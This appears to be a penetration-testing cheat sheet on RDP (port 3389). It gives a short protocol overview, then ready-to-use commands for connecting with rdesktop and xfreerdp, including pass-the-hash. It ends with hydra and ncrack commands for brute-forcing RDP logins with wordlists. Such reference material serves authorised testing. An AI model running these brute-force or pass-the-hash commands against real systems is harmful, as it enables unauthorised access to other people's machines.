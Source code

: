 # RDP - 3389

## RDP Information

The Remote Desktop Protocol \(RDP\) that's used for communication between the Terminal Server and the Terminal Server Client. RDP is encapsulated and encrypted within TCP.

RDP is based on and is an extension of, the T-120 family of protocol standards. A multichannel capable protocol allows for separate virtual channels for carrying the following information:

* presentation data
* serial device communication
* licensing information
* highly encrypted data, such as keyboard, mouse activity

RDP is an extension of the core T.Share protocol. Several other capabilities are retained as part of the RDP, such as the architectural features necessary to support multipoint \(multiparty sessions\). Multipoint data delivery allows data from an application to be delivered in **real-time** to multiple parties, such as Virtual Whiteboards. It doesn't require sending the same data to each session individually.

{% embed url="https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol" %}



## RDP Authentication

### rdesktop

```text
rdesktop 192.168.10.10 -u username@corp -p 'p@ssw0rd!' -g 1024x768 -x 0x80
rdesktop -u <username> <IP> -g 1024x768 -x 0x80
rdesktop -d <domain> -u <username> -p <password> <IP> -g 1024x768 -x 0x80
```

### xfreedesktop

```text
xfreerdp /u:[domain\]<username> /p:<password> /v:<IP>
xfreerdp /u:[domain\]<username> /pth:<hash> /v:<IP>
xfreerdp /u:username /d:[domain] /p:<password> /v:<IP> /cert-ignore /f
```

### rdp\_check

```text
rdp_check <domain>\<name>:<password>@<IP>
```

### Remmina

## RDP Bruteforce

### hydra

```text
hydra -V -f -L /root/Desktop/user.txt -P /root/Desktop/dict.txt rdp://192.168.0.102
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
```

### ncrack

```text
ncrack -vv --user administrator -P /usr/share/wordlists/rockyou.txt rdp://[IP]
```






